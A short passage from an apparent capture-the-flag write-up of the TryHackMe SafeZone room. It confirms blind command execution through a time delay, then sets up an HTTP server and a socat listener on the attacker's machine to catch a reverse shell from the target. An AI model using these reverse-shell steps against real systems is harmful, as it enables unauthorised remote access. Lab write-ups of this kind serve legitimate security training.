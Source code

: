 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032454.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032533.png)

It indeed has 10 seconds time delay!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032707.png)

```
10.10.245.138 - - [30/Dec/2022 03:26:41] "GET / HTTP/1.1" 200 -
```

Cool.

**Now we can try to get a reverse shell!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/12/30 03:28:04 socat[135993] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 03:28:04 socat[135993] N listening on AF=2 0.0.0.0:4445
```
